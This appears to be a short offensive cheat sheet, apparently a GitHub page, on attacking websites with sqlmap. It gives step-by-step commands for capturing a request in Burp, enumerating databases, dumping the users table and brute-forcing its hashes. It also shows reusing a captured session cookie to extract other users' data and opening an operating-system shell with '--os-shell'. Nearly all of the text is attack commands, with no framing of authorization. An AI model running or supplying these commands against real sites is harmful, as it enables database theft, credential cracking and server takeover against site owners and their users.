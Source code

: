 ## SQLmap

For this attack you should capture the request of an input parameter with burp. For this, you just have to intercept the request (login for example) and then just copy the request and save it in a txt file and run sqlmap with:

````
sqlmap -r <burpsuite txt file> --dbs
````


````
sqlmap -r <txt file from burpsuite> -D <database name> --tables
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --dump
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users
````

**Dump All**

if you use for example:

````
sqlmap -r <burpsuite txt file> -D <ddbb> -T <table> --dump-all
````
And the case is if the table is the users table, with dump all sqlmap will ask to bruteforce the hashes, should be YES.


--------------------------------
**Lateral Movement**

On a website attack, you can use your session cookie (if you have an account) to extract information of another user from the table with sqlmap.

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump tables
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --os-shell
````

Last one will give us a shell and with ````help```` cmd we can see all the commands.
